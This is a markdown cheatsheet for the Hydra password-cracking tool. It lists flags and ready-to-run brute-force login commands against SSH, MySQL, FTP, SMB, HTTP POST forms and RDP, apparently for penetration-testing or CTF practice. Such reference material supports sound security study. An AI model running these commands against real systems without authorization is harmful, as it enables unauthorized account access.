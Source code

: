 # Hydra Cheatsheet

#### Syntax
`hydra [options] host_to_attack`

#### Common flags:
- -h: see the help menu
- -l username: Pass single username/login
- -L users.txt: Pass multiple usernames/logins
- -p password: Pass single known password
- -P passwords.tx: Pass a password list or wordlist (ex.: rockyou.txt)
- -s num: Use custom port
- -f: Exit as soon as at least one a login and a password combination is found
- -R: Restore previous session (if crashed/aborted)
- -t: Number of threads

#### SSH
`hydra -f -l user -P passwords.txt <IP> ssh`
OR
`hydra -f -l user -P passwords.txt ssh://<IP>`
#### MySQL
`hydra -f -l user -P passwords.txt <IP> mysql`
#### FTP
`hydra -f -l user -P passwords.txt <IP> ftp`
#### SMB
`hydra -f -l user -P passwords.txt <IP> smb`
#### HTTP POST FORM
**Format:**
`hydra -l user -P passwords.txt <IP> http-post-form "<Login Page Relative URL>:<POST Request Body>:<Error Message Indicator>"`
**Example:**
`hydra -l user -P passwords.txt 10.10.3.6 http-post-form "/login.php:username=^USER^&password=^PASS^:Login Failed"`
#### Windows RDP
`hydra -f -l user -P passwords.txt rdp://<IP>`
